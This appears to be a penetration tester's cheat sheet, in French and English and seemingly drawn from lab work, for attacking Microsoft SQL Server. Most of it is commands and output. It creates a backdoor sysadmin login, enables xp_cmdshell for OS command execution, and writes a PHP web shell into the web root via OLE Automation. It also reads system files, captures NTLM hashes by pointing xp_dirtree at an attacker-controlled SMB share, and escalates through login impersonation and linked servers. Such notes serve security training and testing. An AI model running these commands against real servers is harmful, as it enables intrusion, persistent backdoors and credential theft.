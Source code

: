 ```yaml
---
public: true 
#Tags: vhost, hashes, lfi, password-spraying, potato
---
```


Port : 1433

## Enumeration

### nmap
```shell-session
sudo nmap --script ms-sql-info,ms-sql-empty-password,ms-sql-xp-cmdshell,ms-sql-config,ms-sql-ntlm-info,ms-sql-tables,ms-sql-hasdbaccess,ms-sql-dac,ms-sql-dump-hashes --script-args mssql.instance-port=1433,mssql.username=sa,mssql.password=,mssql.instance-name=MSSQLSERVER -sV -p 1433 $TARGET_IP
```

### metasploit
```shell-session
msf6 auxiliary(scanner/mssql/mssql_ping) > set rhosts 10.129.201.248

rhosts => 10.129.201.248


msf6 auxiliary(scanner/mssql/mssql_ping) > run

[*] 10.129.201.248:       - SQL Server information for 10.129.201.248:
[+] 10.129.201.248:       -    ServerName      = SQL-01
[+] 10.129.201.248:       -    InstanceName    = MSSQLSERVER
[+] 10.129.201.248:       -    IsClustered     = No
[+] 10.129.201.248:       -    Version         = 15.0.2000.5
[+] 10.129.201.248:       -    tcp             = 1433
[+] 10.129.201.248:       -    np              = \\SQL-01\pipe\sql\query
[*] 10.129.201.248:       - Scanned 1 of 1 hosts (100% complete)
[*] Auxiliary module execution completed
```

### Mssqlclient.py (impacket)
```sql
-- Internal Authentication (no fomzin prefix)
mssqlclient.py -p 1433  $USER:$PASS@$TARGET_IP 

--
mssqlclient.py Administrator@10.129.201.248 -windows-auth

-- Local workstation account authentication (no need to add WIN-02 to hosts)
mssqlclient.py -p 1433 -windows-auth WIN-02/mssqlsvc:princess1@$TARGET_IP      
```

## Commandes utiles
### Enumeration / Exploration
```sql
-- Get version
select @@version;
-- Get user
select user_name();

-- Check if we are sysadmin
SELECT SYSTEM_USER;
SELECT IS_SRVROLEMEMBER('sysadmin'); -- retourne 0 si nous ne sommes pas membre
-- Get databases
SELECT name FROM master.dbo.sysdatabases;
select name from sys.databases
-- Use database
USE master

-- Get table names
SELECT table_name FROM <databaseName>.INFORMATION_SCHEMA.TABLES;

-- ist Linked Servers
EXEC sp_linkedservers
SELECT * FROM sys.servers;

-- List users
select sp.name as login, sp.type_desc as login_type, sl.password_hash, sp.create_date, sp.modify_date, case when sp.is_disabled = 1 then 'Disabled' else 'Enabled' end as status from sys.server_principals sp left join sys.sql_logins sl on sp.principal_id = sl.principal_id where sp.type not in ('G', 'R') order by sp.name;

-- Identify Linked Servers
1> SELECT srvname, isremote FROM sysservers
2> GO

srvname                             isremote
----------------------------------- --------
DESKTOP-MFERMN4\SQLEXPRESS          1
10.0.0.12\SQLEXPRESS                0        <== isremote = 0 ===> LINKED SERVER


```

### Exploitation
#### Création de compte
```sql
------------------------------------------------------------------------
-- Create user with sysadmin privs
CREATE LOGIN hacker WITH PASSWORD = 'P@ssword123!';
EXEC sp_addsrvrolemember 'hacker', 'sysadmin';
```

#### Exécution de commandes

```
------------------------------------------------------------------------
-- Tentative d activation de xp_cmdshell  (si droits suffisants)
-- To allow advanced options to be changed.  
EXECUTE sp_configure 'show advanced options', 1;
-- To update the currently configured value for advanced options.  
RECONFIGURE;
-- To enable the feature.  
EXECUTE sp_configure 'xp_cmdshell', 1;
-- To update the currently configured value for this feature.  
RECONFIGURE
--  Execution de commande (si xp_cmdshell est activé)
xp_cmdshell 'whoami';
```

#### Ecriture dans un fichier
```
------------------------------------------------------------------------
-- Creation de fichier fia OLE Automation Procedures
-- Activation
1> sp_configure 'show advanced options', 1
2> GO
3> RECONFIGURE
4> GO
5> sp_configure 'Ole Automation Procedures', 1
6> GO
7> RECONFIGURE
8> GO
-- Création de fichier
1> DECLARE @OLE INT
2> DECLARE @FileID INT
3> EXECUTE sp_OACreate 'Scripting.FileSystemObject', @OLE OUT
4> EXECUTE sp_OAMethod @OLE, 'OpenTextFile', @FileID OUT, 'c:\inetpub\wwwroot\webshell.php', 8, 1
5> EXECUTE sp_OAMethod @FileID, 'WriteLine', Null, '<?php echo shell_exec($_GET["c"]);?>'
6> EXECUTE sp_OADestroy @FileID
7> EXECUTE sp_OADestroy @OLE
8> GO
```

#### Lecture d'un fichier
```
SELECT * FROM OPENROWSET(BULK N'C:/Windows/System32/drivers/etc/hosts', SINGLE_CLOB) AS Contents
2> GO
```

#### Capture de Hash

```
-- XP_DIRTREE
EXEC master..xp_dirtree '\\10.10.110.17\share\'

-- XP_SUBDIRS
EXEC master..xp_subdirs '\\10.10.110.17\share\'
```

#### User Impersonate

```
-- Liste des users que l'on peut "impersonate"
SELECT distinct b.name
FROM sys.server_permissions a
INNER JOIN sys.server_principals b
ON a.grantor_principal_id = b.principal_id
WHERE a.permission_name = 'IMPERSONATE'
GO

-- Exploitation
user master; -- db sur laquelle on est sur d'avoir les droits
EXECUTE AS LOGIN = 'sa';
SELECT SYSTEM_USER;
SELECT IS_SRVROLEMEMBER('sysadmin');
REVERT; -- retourne aux droits précédents
```

### Linked Server
Si on a un serveur lié (voir énumération sur cette page), on peut exécuter des requêtes à distance sur cette machine :

```
EXECUTE('select @@servername, @@version, system_user, is_srvrolemember(''sysadmin'')') AT [10.0.0.12\SQLEXPRESS]
2> GO
```

## Outils utiles

#### sqlcmd (Windows)
```
# -y 30 -Y 30 augmentent la visibilité des résultat (attention aux performances)
sqlcmd -S SRVMSSQL -U julio -P 'MyPassword!' -y 30 -Y 30

# ATTENTION : cet utilitaire nécessite la saisie du mot GO à la ligne terminant chaque requête ! (pas besoin de ';' dans cet outil)
```

#### sqsh (Linux)
```
# Authentificatino Interne (SQL Server)
sqsh -S 10.129.203.7 -U julio -P 'MyPassword!' -h

# Authentification locale ou domaine
sqsh -S 10.129.203.7 -U .\\julio -P 'MyPassword!' -h
```

#### mssqlclient.py (Impacket)

```
 mssqlclient.py -p 1433 julio@10.129.203.7 
```



There are other methods to get command execution, such as adding [extended stored procedures](https://docs.microsoft.com/en-us/sql/relational-databases/extended-stored-procedures-programming/adding-an-extended-stored-procedure-to-sql-server), [CLR Assemblies](https://docs.microsoft.com/en-us/dotnet/framework/data/adonet/sql/introduction-to-sql-server-clr-integration), [SQL Server Agent Jobs](https://docs.microsoft.com/en-us/sql/ssms/agent/schedule-a-job?view=sql-server-ver15), and [external scripts](https://docs.microsoft.com/en-us/sql/relational-databases/system-stored-procedures/sp-execute-external-script-transact-sql). However, besides those methods there are also additional functionalities that can be used like the `xp_regwrite` command that is used to elevate privileges by creating new entries in the Windows registry. Nevertheless, those methods are outside the scope of this module.